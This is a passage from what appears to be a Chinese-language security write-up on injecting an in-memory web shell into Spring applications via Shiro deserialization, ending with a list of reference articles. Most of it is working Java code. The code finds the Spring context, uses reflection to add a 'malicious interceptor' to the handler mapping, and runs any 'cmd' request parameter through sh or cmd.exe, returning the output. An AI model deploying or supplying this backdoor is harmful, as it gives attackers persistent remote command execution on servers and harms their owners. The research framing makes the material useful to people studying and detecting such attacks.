                    System.out.println("[calc] 方法2: 尝试属性 'org.springframework.web.servlet.DispatcherServlet.CONTEXT' (1)");
                    context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes()
                            .getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 1);
                    if (context != null) {
                        System.out.println("[calc] 方法2成功: " + context);
                    } else {
                        System.out.println("[calc] 方法2失败: 属性值为null");
                    }
                } catch (Exception e) {
                    System.err.println("[calc] 方法2异常: " + e.getClass().getName() + " - " + e.getMessage());
                }
            }
            
            // 方法3: 尝试获取ServletContext
            if (context == null) {
                try {
                    System.out.println("[calc] 方法3: 尝试通过ServletContext获取");
                    javax.servlet.http.HttpServletRequest request = ((org.springframework.web.context.request.ServletRequestAttributes) RequestContextHolder.currentRequestAttributes()).getRequest();
                    javax.servlet.ServletContext servletContext = request.getServletContext();
                    System.out.println("[calc] ServletContext获取成功: " + servletContext);
                    
                    // 尝试从ServletContext获取Spring上下文
                    try {
                        context = org.springframework.web.context.support.WebApplicationContextUtils.getWebApplicationContext(servletContext);
                        if (context != null) {
                            System.out.println("[calc] 方法3成功: " + context);
                        } else {
                            System.out.println("[calc] 方法3失败: WebApplicationContextUtils返回null");
                        }
                    } catch (Exception e) {
                        System.err.println("[calc] WebApplicationContextUtils异常: " + e.getClass().getName() + " - " + e.getMessage());
                    }
                } catch (Exception e) {
                    System.err.println("[calc] 方法3异常: " + e.getClass().getName() + " - " + e.getMessage());
                }
            }
            
            // 如果获取到上下文，尝试注入
            if (context != null) {
                System.out.println("[calc] 成功获取Spring上下文，开始注入...");
                
                try {
                    // 获取RequestMappingHandlerMapping - 明确指定bean名称
                    RequestMappingHandlerMapping mappingHandlerMapping = context.getBean("requestMappingHandlerMapping", RequestMappingHandlerMapping.class);
                    System.out.println("[calc] 获取RequestMappingHandlerMapping成功");
                    
                    // 通过反射获取adaptedInterceptors字段
                    Field field = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
                    field.setAccessible(true);
                    System.out.println("[calc] 获取adaptedInterceptors字段成功");
                    
                    // 获取拦截器列表
                    List<HandlerInterceptor> adaptInterceptors = (List<HandlerInterceptor>) field.get(mappingHandlerMapping);
                    System.out.println("[calc] 获取拦截器列表成功，当前数量: " + adaptInterceptors.size());
                    
                    // 注入恶意拦截器
                    calc evilInterceptor = new calc();
                    adaptInterceptors.add(evilInterceptor);
                    
                    System.out.println("[calc] 恶意拦截器注入成功！当前拦截器数量: " + adaptInterceptors.size());
                } catch (Exception e) {
                    System.err.println("[calc] 注入过程中发生异常: " + e.getClass().getName() + " - " + e.getMessage());
                    e.printStackTrace();
                }
            } else {
                System.out.println("[calc] 所有方法都无法获取Spring上下文，注入失败");
            }
        } catch (Exception e) {
            System.err.println("[calc] 静态代码块执行过程中发生异常: " + e.getClass().getName() + " - " + e.getMessage());
            System.err.println("[calc] 异常详细信息:");
            e.printStackTrace();
        }
        System.out.println("[calc] 静态代码块执行完成");
    }
    
    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        System.out.println("[calc] preHandle被调用，URL: " + request.getRequestURI());
        System.out.println("[calc] 请求方法: " + request.getMethod());
        System.out.println("[calc] 请求参数: " + request.getQueryString());
        
        // 检查是否有cmd参数
        String cmd = request.getParameter("cmd");
        if (cmd != null) {
            try {
                System.out.println("[calc] 执行命令: " + cmd);
                
                // 判断操作系统类型
                boolean isLinux = true;
                String osType = System.getProperty("os.name");
                if (osType != null && osType.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                
                System.out.println("[calc] 操作系统: " + osType + ", isLinux: " + isLinux);
                
                // 构建命令数组
                String[] cmds = isLinux ? 
                    new String[]{"sh", "-c", cmd} : 
                    new String[]{"cmd.exe", "/c", cmd};
                
                System.out.println("[calc] 执行命令数组: " + java.util.Arrays.toString(cmds));
                
                // 执行命令
                Process process = Runtime.getRuntime().exec(cmds);
                InputStream in = process.getInputStream();
                InputStream err = process.getErrorStream();
                
                Scanner s = new Scanner(in).useDelimiter("\A");
                Scanner errScanner = new Scanner(err).useDelimiter("\A");
                
                String output = s.hasNext() ? s.next() : "";
                String errorOutput = errScanner.hasNext() ? errScanner.next() : "";
                
                System.out.println("[calc] 命令输出: " + output);
                if (!errorOutput.isEmpty()) {
                    System.out.println("[calc] 命令错误输出: " + errorOutput);
                }
                
                // 等待命令执行完成
                int exitCode = process.waitFor();
                System.out.println("[calc] 命令执行完成，退出码: " + exitCode);
                
                // 输出结果
                response.getWriter().write("Command: " + cmd + "
");
                response.getWriter().write("Exit Code: " + exitCode + "
");
                response.getWriter().write("Output:
" + output + "
");
                if (!errorOutput.isEmpty()) {
                    response.getWriter().write("Error:
" + errorOutput + "
");
                }
                response.getWriter().flush();
                response.getWriter().close();
                
                System.out.println("[calc] 命令执行完成");
            } catch (Exception e) {
                System.err.println("[calc] 命令执行失败: " + e.getMessage());
                e.printStackTrace();
                
                // 输出详细错误信息到响应
                response.getWriter().write("Command execution failed: " + e.getMessage() + "
");
                response.getWriter().write("Exception type: " + e.getClass().getName() + "
");
                response.getWriter().flush();
                response.getWriter().close();
            }
            return false; // 阻止继续处理
        }
        return true; // 继续正常处理
    }

    @Override
    public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, ModelAndView modelAndView) throws Exception {
        System.out.println("[calc] postHandle被调用");
        HandlerInterceptor.super.postHandle(request, response, handler, modelAndView);
    }

    @Override
    public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, Exception ex) throws Exception {
        System.out.println("[calc] afterCompletion被调用");
        if (ex != null) {
            System.out.println("[calc] 异常信息: " + ex.getMessage());
        }
        HandlerInterceptor.super.afterCompletion(request, response, handler, ex);
    }
}

```



成功执行命令



# 参考文章

[godzeo/shiro\_cb\_memshell: 使用shiro无CC依赖的CB1直接写入冰蝎马 支持tomcat、spring](https://github.com/godzeo/shiro_cb_memshell/tree/master)

[简化请求头向shiro注入内存马-先知社区](https://xz.aliyun.com/news/13544)

[利用shiro反序列化注入冰蝎内存马 - Atomovo - 博客园](https://www.cnblogs.com/yyhuni/p/shiroMemshell.html#pagecontext对象)

[[Java安全]—Shiro回显内存马注入\_shiro注入内存马-CSDN博客](https://blog.csdn.net/weixin_54902210/article/details/129122996)

[基于全局储存的新思路 | Tomcat的一种通用回显方法研究](https://mp.weixin.qq.com/s?__biz=MzIwMDk1MjMyMg==&mid=2247484799&idx=1&sn=42e7807d6ea0d8917b45e8aa2e4dba44&poc_token=HMEgq2ijGlWMFaDcso6MhTbt9ZAJw3vAlO5rHjF8)

[Java代码执行漏洞中类动态加载的应用 | l3yx's blog](https://l3yx.github.io/2020/07/06/Java代码执行漏洞中类动态加载的应用/)

[c0ny1/java-object-searcher: java内存对象搜索辅助工具](https://github.com/c0ny1/java-object-searcher)

[利用shiro反序列化注入冰蝎内存马-先知社区](https://xz.aliyun.com/news/10144)

[Spring内存马——Controller/Interceptor构造-先知社区](https://xz.aliyun.com/news/11493)

[实战分享！spring内存马（Controller）构造\_spring 内存马-CSDN博客](https://blog.csdn.net/MachineGunJoe/article/details/131518608)

[实战分享！spring内存马（Controller）构造\_spring 内存马-CSDN博客](https://blog.csdn.net/MachineGunJoe/article/details/131518608)

[Spring架构原理 & Spring内存马 - n4c1 - 博客园](https://www.cnblogs.com/n4c1/p/19029461)

[Spring架构原理 & Spring内存马 - n4c1 - 博客园](https://www.cnblogs.com/n4c1/p/19029461)

[Java代码执行漏洞中类动态加载的应用 | l3yx's blog](https://l3yx.github.io/2020/07/06/Java代码执行漏洞中类动态加载的应用/#Shiro反序列化上载reGeorg代理)

[shiro 内存马 - LingX5 - 博客园](https://www.cnblogs.com/LINGX5/p/18847330)
